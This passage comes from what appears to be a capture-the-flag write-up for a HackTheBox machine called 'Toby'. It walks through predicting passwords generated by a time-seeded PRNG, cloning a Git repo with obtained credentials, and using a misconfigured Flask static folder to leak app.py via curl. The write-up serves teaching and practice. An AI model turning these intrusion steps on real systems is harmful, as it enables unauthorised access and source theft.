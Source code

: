
Because it’s seeding `random` with `int(time.time())`, if I know roughly the
date during which the password was created, I can generate the list of
passwords from around that time.

#### Git Repo

I’ll download a copy of the Git repo and look for creds, or old versions of
the passwords that are now in environment variables. I just need to enter the
username and password when prompted:

    
    
    oxdf@hacky$ git clone http://backup.toby.htb/toby-admin/personal-webapp.git
    Cloning into 'personal-webapp'...
    Username for 'http://backup.toby.htb': toby-admin
    Password for 'http://toby-admin@backup.toby.htb': 
    remote: Enumerating objects: 12, done.
    remote: Counting objects: 100% (12/12), done.
    remote: Compressing objects: 100% (12/12), done.
    remote: Total 12 (delta 5), reused 0 (delta 0)
    Unpacking objects: 100% (12/12), 4.32 KiB | 442.00 KiB/s, done.
    

Unfortunately, despite the different update comments in the source, there’s
only one previous commit:

    
    
    oxdf@hacky$ git log --oneline 
    4dda252 (HEAD -> master, origin/master, origin/HEAD) Fix static files
    7e56dd8 Add all files for webapp
    

The only change between the two is the `static_folder` setting in the Flask
app creation and the seeding of the pseudo-random number generator with the
current time (it shows nicely in the Gogs GUI as well):

[![image-20211008171445621](https://0xdfimages.gitlab.io/img/image-20211008171445621.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211008171445621.png)

There is a vulnerability in how this app is now handling statistics, by
setting the `/static` path to point to the current directory instead of the
default `static` directory. This can can lead to file read in that directory,
like a source code leak. For example, I can get `app.py`:

    
    
    www-data@wordpress:/var/www/html$ curl personal.toby.htb/static/app.py
    #!/usr/bin/python3     
                                                                        
    import json                                    
    import random
    import time      
    import string
    from subprocess import Popen, PIPE       
    import os
    import ipaddress    
    from flask import *
                                                                        